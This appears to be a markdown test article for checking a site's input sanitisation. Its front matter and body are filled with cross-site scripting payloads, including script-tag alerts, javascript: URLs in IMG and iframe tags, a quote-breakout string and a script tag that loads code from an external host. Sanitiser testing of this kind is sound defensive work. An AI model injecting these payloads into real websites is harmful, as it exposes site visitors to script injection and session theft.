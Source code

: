 ```yaml
---
title: xss test
date: 2019-07-18T08:23:44.456Z
description: <script>alert("hello")</script>
directory: Bad Articles
priority: 1
tags:
  - <script>alert("hello")</script>
---
```

<script>alert("hello")</script>

"><iframe src=javascript:alert(1)>



<IMG SRC="javascript:alert('XSS');">

<IMG SRC=javascript:alert(&quot;XSS&quot;)>

\";alert('XSS');//



<SCRIPT SRC="http://xss.rocks/xss.jpg"></SCRIPT>
